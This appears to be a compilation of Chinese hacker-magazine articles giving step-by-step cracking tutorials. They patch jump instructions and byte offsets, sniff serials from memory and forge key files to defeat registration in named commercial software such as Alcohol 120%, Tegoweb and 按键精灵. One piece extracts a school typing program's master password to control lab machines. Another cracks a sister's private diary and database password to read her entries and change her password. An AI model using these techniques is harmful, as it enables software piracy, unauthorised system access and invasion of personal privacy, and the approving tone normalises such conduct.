这里有几个找关键跳的小技巧：在一般情况下如果注册信息是先成功后失败，那么跳向失败、且离成功提示最近的跳转很可能就是关键跳；如果是先失败后成功，则离失败提示最近的跳转更可能是关键跳。文中定位到的关键跳转为`0059A1C7 jne 0059A27E`。

### 三、利用工具来“致命一刀”

现在我们来修改程序关键跳，重新编译程序。使用UltraEdit打开DMS.exe，按`Ctrl+G`输入需要修改的关键跳偏移地址（例如`0x1995C7h`），定位到目标位置。


点击“OK”来到关键跳的代码处。由前面的分析可知，将关键跳改成相反条件即可。已知关键跳是`0059A1C7 jne 0059A27E`，因此需要把`jne`改为`je`。

| 跳转指令 | 机器码 | 条件 |
|---|---|---|
| JC | 82 | 有进位 |
| JNC | 83 | 无进位 |
| JZ/JE | 84 | 等于/为零 |
| JNZ/JNE | 85 | 不等于/不为零 |
| JS | 88 | 负号 |
| JNS | 89 | 正号 |
| JO | 80 | 溢出 |
| JNO | 81 | 无溢出 |
| JP/JPE | 8A | 奇偶位为偶 |
| JNP/JPO | 8B | 奇偶位为奇 |

也就是说把`jne`的机器码`85`改成`je`的机器码`84`即可。随后在要修改机器码的位置右键选择“Replace”进行替换，如图8。


保存我们修改完的程序文件，我们把它另存为DMSI.exe，然后运行DMSI.exe，随便填写注册码，然后点击“注册”，如图10。我们可以看见注册成功了。看这套软件的价钱还真不便宜呢：个人使用60元/套，单位、企业使用800元/套。在这里向软件的作者表示敬意，希望大家多多支持正版软件。


### 《网络电视小精灵》爆破篇

破解方法同样是“先易后难”，主要思路是先从错误提示信息入手，找到可定位的字符串，再结合反汇编定位关键跳转并修改，实现注册通过。

步骤如下：

- **1. 知己知彼**  
  如图11可以知道，程序是用Borland Delphi 6.0–7.0编写，程序没有加过壳。
- **2. 故擒故纵**  
  我们随便输入注册码，点击注册。观察注册失败信息：“您的注册码无效，请与作者联系xiaotv@163.com”，记住这个信息。反汇编时查找该字符串，如图12。
- **3. 深入内部，了解分析**  
  使用W32Dasm载入程序，定位失败信息；再使用“参考—串式参考”查找“您的注册码无效，请与作者联系xiaotv@163.com”，双击定位到00480B0B处，如图13和图14。


通过上面的分析再结合找关键跳的小技巧，我们可以轻松找到关键跳00480A33。我们来到关键跳看看，如图15。关键跳的偏移地址也就是要修改的实际地址是0007FE33h。


### 四、彻底清反汇，跳出残局

用UltraEdit打开网络电视小精灵.exe，修改0007FE33h处机器码，85改成84。基本方法和《Word文档资料管理系统》爆破中的第三步相似，这里不再重复。然后随便输入注册码注册，可看到注册成功信息，如图16。到这里我们就完成了网络电视小精灵的爆破。


### 五、后遗

当我们完成爆破后出现了一个戏剧化的场面，如图17。还能在线升级软件，真高兴！于是就开始为软件升级。直到升级完毕还没有出现什么异常，见图18。到这里我们也没多想，按提示重新启动程序。就在程序被重新启动后，出现了这样的场面，如图19。


### 六、解决方法

看来作者可能考虑到了软件被爆破的可能，在软件升级过程中对注册信息重新验证了，软件又变成了未注册版。我们如果能获得一个合法的注册码，不就可以合法地注册和升级了么？这里我们并不是要大家花大把的银子去注册，我们可以动态跟踪程序，追回合法的注册码来完成合法注册，享受一切合法功能。菜鸟解放教学就先写到这里，希望大家能有所收获。

（本文涉及到的动画和程序PEiD、W32Dasm、UltraEdit光盘有收录）

## 巧破Tegoweb

风泽 [E.S.T]

Tegoweb这个软件以前《X档案》中也曾介绍过，所以对其功能有一定的了解。正好最近需要用到这个软件，就从光盘中将它找了出来，安装了一下，感觉还不错，于是就决定到网上找个汉化版的（毕竟咱们是中国人嘛）。找到了一个汉化破解版的，软件的确汉化了，就是没发现破解文件，软件还是显示为30天试用版。没办法，自己来吧，拿出已经上了灰尘的PEiD和W32Dasm，任务开始了。首先用PEiD检测一下有没有壳，如图1。

看到这个结果我想：又要忙啊，程序没有加壳，而且软件是用VB写的。不管了，用W32Dasm反汇编看一下吧。要静态分析当然要知道软件对错误注册码的一些反应，于是打开软件注册页面。胡闹！都输入了N长的数字了，旁边的注册按钮怎么还没亮起来？如图2。有点郁闷，突然脑子里有了一个想法——WINDOWS按钮突破专家！可是在自己的计算机上找了半天也没找到。不怕，我机器上还有一款——激活专家。抱着试试看的心理对软件开始操作，没想到奇迹出现了，注册成功了！！哇！真不敢相信！但事实如此啊，如图3。


就这样我们已经很轻松地破了Tegoweb这个软件，但是本人还是想深入点看看这个软件到底是怎么样注册的，于是就有了下文。用W32Dasm打开软件，根据2条信息来分析，“Product Order Info...”这个是未注册时软件的显示，“Registration Info...”这个是注册后软件的显示。根据这个提示我找到了如下地址，如图4。

```asm
00450C6E 8B55CC        mov edx,dword ptr [ebp-34]
00450C71 8E49C0        mov ecx,dword ptr [eax+0C]
00450C74 52            push edx
00450C75 8B1401        mov edx,dword ptr [ecx+eax]
00450C78 52            push edx
...
Reference To: MSVBVM50.__vbaStrCmp, Ord:0000h
...
00450C79 FF15F0F24E00  call dword ptr [0046F220]
00450C7F 85C0          test eax,eax
00450C81 0F8570000000  jne 00450D03

修改这个跳转后并没有达到破解软件的目的，通过Ollydbg跟踪后分析此软件的注册码校验流程如下：
```


- 1. 读取文件的第一行信息加在一起。  
- 2. 读取文件的第二行信息加在一起。  
- 3. 读取最后一行的注册日期与前面的信息加在一起（按用户信息和时间计算注册码）。  
- 4. 对前面的所有信息进行计算，得出一个值，然后与第一行的数值比较（出现的跳转决定是否成功）。

```c
#include <stdio.h>
#include <stdlib.h>
#include <conio.h>

main()
{
    FILE *fpout;
    char cmp[]="8627";
    char number[]="I LoVE YOU";
    char name[]="EvilHsu";
    char company[]="E'S";
    char time[]="2004-12-13-15:43:06";

    fpout=fopen("Reg.r","w");
    if(fpout==NULL) printf("Can't output file");
}
```

```c
if(fpout==NULL)
    printf("Can't output file\n");
else
{
    fprintf(fpout,"%s\n",cmp);
    fprintf(fpout,"%s\n",number);
    fprintf(fpout,"%s\n",name);
    fprintf(fpout,"%s\n",company);
    fprintf(fpout,"%s\n",time);
}
```

到这里基本知道这个软件是如何确认注册的。由于作者并不懂逆向算法，仍尝试写了一个小型“注册机”。

好了，简单的破解就到这里了。快过年了，祝《X档案》在新的一年里越来越火！

## “初学高手”的万能密码

凯旋探梦


学了这么久理论课，终于进机房练机。使用“打字高手5.31”练习时，发现系统环境和软件限制较多，但课程要求主要是打字练习。

注意到软件中有“网络监控”功能，点击后提示输入密码。常见密码（如12345678、ADMIN）均无效，怀疑被修改。


继续查看“帮助-软件操作与说明”，发现管理员初始口令可能为123，决定尝试。


输入密码123后成功进入网络监控。由此感慨机房安全意识薄弱，易引发安全风险。

老师表示打字效果达标即可。作者转而研究软件其他功能，并围绕口令机制进行了进一步尝试与记录。

看看它的界面，虽然没有木马功能那么强大，但还是有几个好玩的，比如：发送消息、闭屏、重启关机、全体广播、锁定桌面、传送文件等功能（如图5）。


但是第二天这个密码很多人都知道了，他们老是在局域网搞恶作剧。第二天下午所有的密码都被老师改了，都没得玩了。我在无聊的时候突然想起了用WinHex在内存里找注册码的教程，我在想用WinHex应该也可以查找一些软件的本地密码啊：当输入密码的时候，软件里的密码会在内存里和你输入的密码校对，这时候用WinHex就可以在密码校对的时候把密码抓出来！

说到不如做到，下午我就用软盘带WinHex来了。打开“打字高手”输入密码，现在我们随便输入一个错误的密码，我输入的密码是77899022，但是你要把你输入的这个假密码记住，后面要用到。输入完成后按回车键，这时会和图3一样弹出一个提示错误的对话框，这时不要点击它！


下面接着来打开WinHex，会出现如下窗口（如图6），我们点击“打开RAM”按钮，这就是打开内存的按钮。


这时会跳转到这个窗口（如图7），里面会列出所有正在运行的进程。打字高手的进程名称是Wwtt这个进程，选“整个内存”再点击“确定”按钮，就会把这个进程的内存打开（如图8）。


在图上可以看到我输入的假密码是77899022，这个是我的QQ号码。大家一定还看到77899022号码的下方还有一个号码吧，这个是打字高手的万能密码。从拼音可以看出作者的名字叫“张小斌”，这个万能密码就是zhangxiaobin68。虽然要找的密码没找到，但是我们却找到了一个万能密码，也能进入啊！这次看老师怎么办，软件自带的万能密码老师是不知道的，也没有重新设置它的功能。

> 注意：此版本为5.31版，5.0版的万能密码为zhangxiaobinok，破解方法和此版本同样。

然后按Ctrl+F键打开“查找”对话框，在里面输入刚才在打字高手里输入的错误密码77899022，点击“确定”很快就会找到你输入的密码（如图9和图10）。

Cosmos.L.X

近来妹妹喜欢在电脑上写日记，说什么要记录美好的今天……她用的日记本是“女孩子日记本 V1.7”版。我问她要密码，她竟然说这是私人秘密，不给我密码。结果趁一个她不在的夜晚，Me 抄起了家伙……我就不信我搞不定！

看看我准备的工具吧：Peid9.2中文版、UPX、W32dasm、OLLYDBG中文修改版、注册机编写器 keymake。首先使用 peid 查主程序 diary.exe，发现程序是用 UPX 压缩了（如图1）。


脱壳程序后再 peid 之，程序是用 Delphi 写的。一般破解 Delphi 写的程序用 DeDe 比较好，但我还是偏向于用“W32dasm”跟“OLLYDBG 中文修改版”实行动静结合破解。把脱壳后的文件复制为“ol.exe”跟“w32.exe”，用 W32dasm 加载 w32.exe，OLLYDBG 中文修改版加载“ol.exe”（这是我个人的习惯，我把要破的程序复制为“ol”跟“w32”再同时用汇编工具加载，这样出错率会大大降低）。运行程序随便输入密码后单击确定，看到了我们最不想看到的东西（如图2）。


记下后调出 W32dasm 串式参考对话框，找到这句后双击来到这里 005674B8，如图3。


向上找到一句 00567482(C)。根据经验，向上查找 00567482 会得到一处跳转。点“查找→查找文本→00567482→向上”，找到一句 jne 005674B8，如图4。现在切换到 OLLYDBG 中文修改版，输入“Ctrl+G”再把地址 00567482 粘贴进去，确定后来到如图5的地方，将 jnz 改为 jz。修改后运行，果然不需要输入正确的密码，随便输入一个就可以了。


进入日记本后我准备跟她开个小玩笑，把她的密码改掉！呵呵，单击“修改旧密码”，随便输入新密码，输入1234点确定后，又看到了我不想看到的“输入的旧密码错误”。没办法，切换到 W32dasm 搜索字符串“输入的旧密码错误”，来到 00567B79，如图6。


向上找到一处 00567B20(C)，跟爆破登录密码一样，点“查找→查找文本→00567B20→向上”，找到 jne 00567B79。再切换到 OLLYDBG 中文修改版，将这处 jne 00567B79 改为 je 00567B79 后 OK！一切都成功啦！将她的密码改为1234后，又随便在她的日记本里转悠一下，她写的东西我全部看到了！

日记本中还有一处限制，就是将日记锁定后同样需要输入密码。程序作者加那么多限制干嘛？不过既然我选择了爆破，那就将程序爆破到底吧！记下错误提示后按同样的方法，将 0056C84B 处的关键跳转 jnz 改为 jz，这一处限制也被除掉了！以后就可以免费看她写的日记啦！

写到这里，也许一些像我这样的菜菜会问：“为什么要将 jnz 改为 jz？”jnz 是条件转移指令，当 ZF=0 时转至标号处执行。jz 也是条件转移指令，当 ZF=1 时转至标号处执行。只要将这句汇编语言关键跳转改掉或 nop 掉，就不需要输入正确的原密码了。更多的汇编指令请查阅《汇编指令查询器》。

OK！到这里程序暴力破解完全成功。用注册机编写器 keymake 制作完文件补丁时，忽然一个新想法产生在脑袋里：我能不能找到“日记本”的真正密码呢？说不定她的 QQ 密码跟日记本密码一样呢！又调出动态反汇编工具“OLLYDBG 中文修改版”，来到登录密码近处 00567482，发现上一句是一处 Call。根据经验，这处 Call 一定就是密码验证的关键 Call 了……输入的是12，程序立刻被断下（如图7）。


图7

这时候在 OL 的右下角处看到了我的假密码“12”跟真密码“1234”。既然密码在内存中以明文显示，那我就把它从内存中取出来吧！

打开注册机编写器 keymake，选择内存选项卡：中断地址 56747D、中断次数 1、第一字节 E8、指令长度 5（这些信息可以在图5中 jinz 上面那个中找到），内存方式为：EAX（如图8）。


图8

生成注册机后放到日记本目录里运行，果然弹出了我想要的登录密码1234（如图9）。


图9

到这里我又来劲头了，已经找到了两种查看密码的方法，能不能再找一种呢？……

再用密码查看工具查看密码。“日记本”的目录下也有一个配置文件“info.ini”，我把它复制下来，再将“日记本”的密码改为“123456”。修改完毕后，我用复制下来的“info.ini”覆盖了一遍修改密码后的“info.ini”，启动程序，输入密码“1234”，可恶的对话框“密码错误，请重新输入。”又弹了出来。看来这种方法不行，作者没有把密码放在配置文件“info.ini”中，那么密码一定藏在数据库中了。打开文件夹 ztdata，将里面的“adata.ama”改名为“adata.mdb”后用 Microsoft Access 打开。什么？需要输入密码啊？这不怕，我有“Mdb_pwd_crack”，破解后得到数据库密码“zlangwei”。好了，打开数据库输入密码，看到了三个表：“diary”、“fox”、“其它”。查看后我把密码位置确定在“fox”表中（如图10）。


图10

我把“pas”处的“12D8600E48882F8F”（如图，这是我输入的新密码123456）复制了下来，把数据库改回原名后密码修改为“1234”，再打开数据库，pas 处的数值果然变了，这次变为 3D3FD76BCB85F56F。我试着将 3D3FD76BCB85F56F 替换掉 12D8600E48882F8F，再次运行程序，果然这就是加密后的密码。好了，程序破解到此结束啦……

（文章中涉及到的工具 Peid9.2中文版、UPX、W32dasm、OLLYDBG中文版修改版、注册机编写器 keymake，光盘有收录）

## 破解加密光盘

magic dog

前些天，同桌借了一部《后天》给我，他告诉我这是正版的，当时我也没在意。可是当我满心欢喜地拿回家准备拷贝到电脑上来播放时，却发现里面什么也没有。但是通过查看磁盘属性，却可以看到整张光盘大小为580MB，如图1。


图1

由此推断此光盘一定是加了密的。哎，可恶的正版，不过 magic dog 建议大家以后支持盗版，拒绝正版，呵呵，玩笑。

首先我想是否我所要的东西被隐藏了？于是通过命令提示符和在 WIN98 下的 MSDOS 界面 dir /a 命令来查看，仍然是显示找不到文件（提示：当命令“dir”加上参数“a”后便可无条件地查看文件，就不会再管文件是什么属性了，这样可以查看一些隐藏的或是系统文件）。后来，我又想用 UltraISO_v6.52（一个光盘刻录软件），把这张光盘制作成镜像文件保存在本机，然后再从镜像文件中提取我要的 DAT 文件，不过还是失败了。

安装完成 UltraISO_v6.52 后，运行该程序，打开程序主界面，在菜单栏上依次点击“工具”→“制作光盘映像文件”，马上弹出对话框，如图2。


图2

选择好 CD-ROM 驱动器的盘符和保存映像的路径后，点击“制作”，耐心等待一会儿，几分钟后在我们选择的路径下便生成了一个扩展名为 ISO 的镜像文件。我们再次运行 UltraISO v6.52，依次点击菜单栏上的“文件”→“打开”，打开我们刚才做好的镜像文件，打开后如图3。


图3

我们知道，一般我们要的 DAT 文件都是存放在“MPEGAV”文件夹里的，所以我们在右上窗口中的“MPEGAV”文件夹，在弹出的菜单中选择“提取到...”，如图4所示。


图4

接下来选择好路径，几分钟后，该文件便被提取到我们指定的地方，我们也理所当然地得到了 MPEGAV 里的 DAT 文件了。可是这招对《后天》却不起作用……于是决定用豪杰超级解霸 V8 来试试，依次点击“文件”→“自动搜索光盘”……


图5

按照我先前所说的播放这部电影，选择我们要保存的段落。在这里要保存的《后天》是第4个段落，这时便开始播放电影了，如图6。


图6

我解释下为什么我要保存第四个段落……而我们真正要的影片内容则是最后边最大的那个文件……大家在保存电影时，可以一个一个段落地试嘛，总有一个是你要的！现在我们依次再点击“控制”→“循环播放”，然后我们再打开控制菜单，如图7。


图7

此时“选择开始点”“选择结束点”“保存MPG片段”都变为可用了。我们选择“选择开始点”，然后把进度条拖到起点，表示从起点开始保存图像，然后打开控制菜单，选择“保存MPG片段”，选择好保存的路径后便开始保存电影了，如图8。


图8

几分钟后，保存完电影便会在先前你所选的路径下生成一个该电影的 MPG 文件，只是生成的 MPG 文件体积会比原来的大一些……（本文所涉及到的程序 UltraISO_v6.52，光盘有收录）

## 动静皆宜风云

李文军

对于初学者来说，动静搭配共同调试乃如虎添翼，可以省去许多麻烦事。现在以近期档案光盘内的 VB 经典编程为例，以 W32dasm 和 Ollydbg 相配合，尽述动静搭配之妙。其实主要是讲一个思想，所以就“老太太吃柿子，专拣软的捏”了。

VB 经典编程是用友益文书制作编译成的，其中加入了阅读密码，和我们平时接触到的共享软件有所不同。但是，虎样还是老虎，我们要一步一步地来，老虎也能给它剥皮挖骨。

对 VB 经典编程用 Peid 查壳，发现本书没有壳。一般的 E-book 都不会加壳，不过作为 Crack 前的必须步骤，我们还是查一下为好。

打开 VB 经典编程来看，书的第105个目录后的内容设置了阅读密码，另有机器码为：YW53235296775。随手填入 686868 后按确定键，弹出“阅读文章密码错误”的提示框，呵呵，这就是我们的下刀处。

用 W32dasm 进行反汇编，打开串式数据参考，找到“阅读文章密码错误”后，双击来到 00495036 处……再向上找到 0049500B 处，内容为：0049500B 7522 jne 0049502F。

```asm
00494FF5 8B83 98300000    mov eax,dword ptr ds:[ebx+398]
00494FFB E8 B8A9F9FF      call ...
00495000 8B45 B4          mov eax,dword ptr ss:[ebp-4C]
00495003 8B55 FC          mov edx,dword ptr ss:[ebp-4]
00495006 E8 7DEEF6FF      call ...
0049500B 75 22            jnz short ...
0049500D 33C0             xor eax,eax
...
0049502D EB 18            jmp short ...
```


图1

对于像我这样的初学者来说，也知道这一步是关键跳转：如果跳转成功则报错，不成功则正确注册。如果爆破的话则把 jne 改成 je 就可以了——对于一般不防爆破的软件是这样的。不过这个不行，改过后软件会报错的。

我不喜欢爆破，如果可能的话，我更喜欢跑出注册码之类的。所以我们就用到了动态调试的宝贝 Ollydbg。还记得我们的跳转地址 0049500B 吗？

在 OD 里我们可以看到在 00494FF5 处有一个跳来的标志。我们又知道在 0049500B 以上的 call 为比较 call，真假密码会在这个 call 里进行比较，所以我们在 00494FF5 这里设断，当然你在 00494FFB、00495006 进行设断都可以。

F9 运行，程序会运行起来，找一个可以弹出密码框的目录点击，出现输入密码对话框（如图2），输入任意密码，如 68686868 后确定，OD 断到设断处……F8 单步到 00495000 处，我们可以看到刚刚输入的假码，00495003 处则为真码，可先记下来再试。

退出 OD，打开 VB 经典编程，输入刚刚得到的密码，确认，跳出正确对话框。成功了……如图3。


由以上可以知道这个东东完全是一个披了虎皮的小绵羊，并不可怕的。也知道了动静结合的妙处。在此抛砖引玉，望大虾们再多写一些经典的东西，以供我们这些菜鸟们学习，谢谢！

（本文涉及到的工具 W32dasm 和 Ollydbg，光盘有收录）


## 扒壳终极破解

张健

现在的软件自身的保护意识越来越强了，在注册码的生成上大都使用了与本机相关的机器码，所以以前用一个通用注册码在不同的机器上使用的方法就失效了，而且使用这种方法的程序其它保护措施也是非常多。

### 一、取得本机下的注册码

下面先来看一下它没有注册时运行的界面，如图1。

暂时不考虑它，用 Peid 中文版看看程序是否加壳了，如图2。


现在我们换个思路。既然不能直接跟踪，我们先用一个快速的方法，直接定位它的注册码的位置。看看它的注册信息有什么可以利用的东西，如图3、图4。


下面调出 OllyDbg v1.10b 汉化版，把调试设置选项“异常”中的“INT3中断、单步中断、内存访问异常”都选中……按 F12 暂停，再按 Ctrl+F9，显示执行到返回。

注意注册码要填16位，如果不对会提示“注册码输入错误，请重新注册”……在 W32dasm10 中载入程序，点击“参考”，选择“串式数据参考”，然后在弹出的窗口中找到“注册码输入错误，请重新注册”并双击。代码分析如下：

```asm
* 取得机器码的地址
00464FD6 8D44241C lea eax, dword ptr [esp+1C]
00464FDA 8BC8     mov ecx, eax
...
* 调用注册码比较函数，判断是否正确并设置标志位
```

```asm
00465010 FF15507D4800 call dword ptr [00487D50]
00465016 83C408       add esp, 00000008
00465019 8D4C2420     lea ecx, dword ptr [esp+20]
...
* 如果对则置0，即注册码正确
* Possible StringData Ref from Data Obj -> "注册"
* Possible StringData Ref from Data Obj -> "注册码输入错误，请重新注册"
```

上面已经很清楚了吧。重新运行 OllyDbg，并在 0046500E 处设断点，然后进入注册并输入“1234567890123456”，点击“注册”后程序被中断。可在窗口中看到我们输入的注册码以及正确注册码。


图5

在注册框中输入机器码“4686004409464481”，点击“注册”看到提示，如图6，我们已注册成功。


图6

注册成功了！再看一眼程序重新启动时的提示窗口吧，如图7，我们是不是已经变得很有身份了，哈哈。


图7

到这就完了？（这么简单，翅膀稿费不发？！）……依在下看，精彩还在后面。

### 二、取得不同机器下的注册码

前面说了，这种软件是要结合用户输入的注册信息与计算机信息生成机器码，然后共同运算生成真正的注册码……来吧，让我们重返战场。

```asm
* 将机器码地址压栈保存，作为参数准备进行前期计算
00464FE0 50 push eax
```

这里是将机器码地址压栈保存，作为参数准备进行前期计算……现在我们按 Alt+M 打开内存窗口，按 Ctrl+B 查找机器码“6607085860334417”……

# 神秘园

中，然后按下键盘的 123（这里只是演示，故随便改了几个数，此时不需要按编辑键，直接输入要改的内容就自动进入到编辑对话框了）。记得要两处都改，好了，我们按下 F9 吧，运行到 0046500E（我们前边下的断点），再按一下 F8（步过），好了，看一下 OllyDbg 右下角的窗口吧，如图 8，我们要的注册码已经出来了。


我们按 F9（运行）重新回到软件注册对话框中，虽然此时提示注册码错误（本来就是随便输的），但机器码已经改变了，如图 9。


拿别人的注册信息与机器码进行替换，然后把在图 8 位置看到的注册码输入看看结果如何。至此我们已经解决了如何取得别人机器上的注册码！我同事的机器就是采用这种方法搞定的，呵呵。

## 三、终极破解

回想一下，我们刚才取得注册码是因为它在内存中进行明文比较，如果它使用了比较复杂的算法，进行中间码的比较我们怎么办？使用一些现有的加密算法还好说，要是使用了一些自己的算法就更麻烦了。此时使用破解是最直接的方法了。好了我们进入下一部分。

有一句话叫万变不离其宗，程序再怎么变化也是要取得我们的注册信息进行比较的，我们先解决掉注册这一项，方法多多，具体语句后面一起讲。

改后，我们不管输入什么注册码，程序都会提示我们注册成功。可是当我们再一次运行程序的时候又会出现类似图 1 的窗口，说我们没有进行注册。分析一下，程序判断我们注册与否，不外乎读取磁盘注册文件与读取注册表信息，而现在没有新增文件那就只有注册表一项了。思路明确就好办了，我们在 OllyDbg 中按 Ctrl+N（打开导入函数表），找到 ADVAPI32.RegQueryValueExA，按下回车（复制到参考中，有三个，地址分别为 0042110C、0045FA9A、00467517，在此省去截图），然后再在参考中点鼠标右键选中“在每个命令中设置断点”（记得把我们以前设置的断点关闭）。

为什么在这里不用 W32dasm10，使用类似取得注册码的方法？因为在 W32dasm10 的“串式数据参考”查到相关的串，进入之后会发现调用太复杂，而且不进行动态跟踪很难分清具体在何处实现的。如果有兴趣的话，你再到 OllyDbg 中前往指定表达式后，按下 Ctrl+K（打开调用树），试着点几次，看它的调用情况就知道了。这时还不如直接找到相关函数，再跟踪定位来得利落，毕竟我们是破解而不是学习作者如何编写程序。

好了，按下 F9（运行），经过跟踪发现 0042110C 位置不是我们想要的，可以按下 Ctrl+B（打开断点窗口），选定 0042110C 再按下空格键将其关闭。现在重点可以放在 0045FA9A 上了（按代码执行先后顺序来）。

这里再明确一次，我们要准备跟踪什么，如果不加分析的话，我们会进行很多无谓的跟踪很麻烦。因为程序要进行判断，必然要读取我们以前输入的注册码（这个注册码要以最后在注册表中所见到的为准，因为有可能进行变形处理），所以我们要跟踪程序，看看它把我们随便输入的注册码什么时候读取到内存。

```asm
; Reference To: ADVAPI32.RegQueryValueExA
0045FA9A  FF1508704800   call dword ptr [00487008]
0045FAA0  3BF0           mov esi,eax
0045FAA2  F7DE           neg esi
0045FAA4  1BF6           sbb esi,esi
0045FAA6  46             inc esi
; Reference To: KERNEL32.GetLastError
0045FAA7  FF15...        call dword ptr [...]
```

发现在 0045FAA7 前没有进行调用，因此我们可以在 0045FAA7 处设置断点，因为我们此时关心的是从注册表中读取的值。

好，Ctrl+F2（重新载入程序），按 F9（运行）三次，看到了吗？如图 10。现在已经看到了我们自己输入的注册码“1234567890123456”。好，我们可以关闭掉这个断点了。


下一步我们要找什么呢？对了，就是“4686004409464481”，因为不管它的注册码如何写，最终都是要用来进行比较的！所以我们现在把目标锁定到“4686004409464481”上。按三次 Ctrl+F9（执行直到返回），然后按 F8（步过），很快我们就来到了 0046082F，此时我们又会看到似曾相识的内容，如图 11。


对此处的代码分析如下：

```asm
; 取得正确的注册码
0046082F 8B00              mov eax,dword ptr [eax]
; 取得我们以前输入的注册码
00460831 8B642450          mov edx,dword ptr [esp+50]
00460835 50                push eax
00460836 52                push edx
; 调用比较函数
00460837 FF15507D4800      call dword ptr [00487D50]
0046083D 83C408            add esp,8
00460840 8D4C2414          lea ecx,[esp+14]
; 判断EAX值，正确值应为0
00460844 85C0              test eax,eax
00460846 0F94C3            sete bl
```

```asm
00460849  E8B8C1401000     call 00471A0A
...
0046084E  84DB             test bl, bl
00460850  C644243406       mov [esp+34], 06
00460855  8D4C2440         lea ecx, [esp+40]
...
00460859  74E?             je 004608C9
```

好了，现在万事俱备，如果进行破解修改什么地方呢？好多文章都是通过修改成跳转语句来实现的。其实这样并不是很稳妥。这种程序在调用验证函数时，经常同时修改多个值，并做一些标记，进行多处判断。

如果盲目改跳转（如果跟踪下去，会发现程序对 EAX 与 EBX 同时进行了判断），即使跳转语句正确，也可能在注册后仍出现异常提示。由此可见，单纯跳转并不是最好的解决办法。

从程序角度看，只要在比较注册码之前把正确的参数送给它，后续流程就会自然通过。比如在 0046082F 取得正确注册码，在 00460831 传入自定义注册值，把 EDX 替换为正确值即可。

```asm
0046082F  8B00        mov eax, dword ptr [eax]
00460831  8B542450    mov edx, dword ptr [esp+50]
; patch 为 mov edx, eax
```

载入程序，前往 00460831，写入 `mov edx,eax`，并可用 NOP 填充保持长度。前面判断语句可保持不变，仅修改入口参数：把 `mov edx, dword ptr [esp+18]` 改为 `mov edx,eax`。

现在运行后即可看到注册成功界面。建议先成功注册一次，让信息写入注册表，否则可能无效。到此，破解思想分析完成。

## 四、尾声

再谈一点对破解的认识：所谓“工欲善其事，必先利其器”。熟练掌握工具可以少走弯路，而扎实的编程基础和分析能力才是更重要的。希望大家早日达到手中无剑、心中有剑的境界。

> （文中涉及到的程序 ollydbg v1.10b 汉化版、w32dasm10 已收录于光盘中）


Alcohol 120% 是著名的虚拟光驱软件。本文示例版本为 Alcohol 120% V1.9.2 (Build 1705) Trial Version，目标是去除 NAG 与时间限制并写入自定义信息。先用 OllyDBG 载入，出现报错窗口（图 1）。


按“否”后继续分析。按 F1 跑完，发现程序使用 UPX 壳（图 2）。


UPX 脱壳很简单：向下滚动到 OEP 附近（图 3）。这是一个常见跳转，定位到 `009D5F1C`，F4 运行后再按 F8 即到 OEP。然后用 LordPE 完整脱壳（图 4）。


保存为 Dump.exe 后，用 ImportREC 修复：选择进程，填写 OEP，自动搜索 IAT，获取导入表并修复，最终保存成功即完成脱壳。

未注册版本启动会有 NAG 窗口和等待时间。若用 CreateWindowExA 下断，断点触发频繁不便跟踪，需要更有针对性的定位方法。

# 神秘园

换一种思路，想当初偶然把 Alcohol 120% 的试用期限用了，它弹出一个 MsgBox 告诉我，你不能再用了，就从这个 MsgBox 入手了。我们用 OllyDBG 载入 Dump.exe，还有，把你的日期调到 2005 年，下断：“bp MessageBoxA”，F9 运行中断，Alt+F9 返回：


F8 单步慢慢走，现在要想怎样绕过这些验证，直到：


可以看到这是从上面跳过来的，可以避开日期检测：


继续走，一会儿到了：


来自 004205CD 的，我们到 004205CD 看看。


这个跳转跨度之大，跳过了日期校验！真宽告诉我们，这是个关键跳转，在 004205C6 这里 F2 下断，让我们 Ctrl+F2 重来。断在 004205C6，E8 1915FEFF call UNpackAI,00401AE4，F7 跟入 call，恐怖！只有三行代码！


我这时才明白为什么安装文件叫 trial_setup.exe，这个测试版抹去了注册码正确的代码，所以用这个版本的 Alcohol.exe 是永远也不能注册成功的，不过这个版本的功能倒是齐全的。我决定先去掉 NAG 再说。在经过 00401AEB xor eax,eax 后 eax 被清零，再看这个 Call 外：


我们需要使 al 不为零才能跳过 NAG，修改 00401AEB 为 mov al,1，字节长度不变。保存一下：点右键→复制到可执行文件→全部复制→保存文件。运行保存后的文件，直接进入，NAG 已经没了！这时，Alcohol 120% 标题栏显示的仍是 Alcohol 120% - Trial Version，“关于”里面显示的是未注册。这不是我们 Cracker 的风格。

再次载入经初步修改后的 Alcohol.exe，在那个“验证”CALL 里下断：bp 00401AE4，中断以后进入 Alcohol 120%，点“帮助→关于”，中断在 00401AE4，Ctrl+F9 执行到返回，


此时 ebx 的值是 0x5478，对应的字符串是 UN-REGISTERED，尝试递增 ebx 的值，递增两次后 ebx=0x547A 对应的字符串是 REGISTERED。修改 ebx 的值后，F9 运行，公司名已为：“注册”。此时向上找给 ebx 赋值的语句：00449DA8 | 8BD8 mov ebx,eax。

再向上找给 eax 赋值的语句，发现由 00449F05 \ C3 retn 返回。可以找到：0041FA70 mov eax,5478，修改为 0041FA70 mov eax,547A；同样把 0041FB1A mov eax,5478 改为 mov eax,547A。保存，运行，可以看到用户名和公司名都为：注册。

这样基本上就完工了，不过我们要给它留下我们的脚印。就像 Hacker 入侵后要擦干净脚印一样，由此可以看出 Hacker 和 Cracker 的区别。标题栏显示 Alcohol 120% - Trial Version，把它改掉算了。想改掉它，一般下断 CreateWindowExA 或 SetWindowTextA，找到字符串的位置修改就可以了，或者直接搜索字符串修改也可以。现在保存之后重新启动 Alcohol 120%，取消前所有断点，这次用 SetWindowTextA 下断，如图 5。运行中断要观察堆栈的变化，两次后就可以在堆栈看到如图 6 情况了，此时中断在 005AD68D。

# 神秘园


既然找到了，Ctrl+G 到 00669761，光标对准 00669761，Ctrl+E 编辑，如图 8。可以把“保留大小”去掉，愿意怎么改，By yourself!


退出这个 Call 找一下数据的来源，在上一点就可以看到了，如图 7。

最后，别把最重要的事忘了，把时间改回来吧！祝大家新年快乐！

（本文涉及到的程序 OllyDBG V1.10 FLY 修改版，光盘有收录）

## 按键精灵 2.65 正式版破解一条龙

zhouzhen[E.S.T]

说起缘由还要从那个 QQ 刷等级的漏洞说起，经过试验有人发现，QQ 等级是不到 1 分钟的按 1 分钟计算，不到 1 小时的也是按一小时计算的。经过严格测试后准确的说法应该是 30 秒钟过后，下线，再上线一次，这样服务器就按 1 分钟计算……刷啊，升级快多了吧。到网上搜索按键精灵，发现大多数都是破解版，只能解除次数限制，看着那个未注册总感觉不爽，抄出家伙！破解之前先把软件介绍一下。

这次我们的破解是在 Windows 2000 平台上进行的，所用到的工具是 W32Dasm、OllyDbg、UltraEdit、侦壳工具 PEID 和资源工具 freeRes。

### 一、脱壳

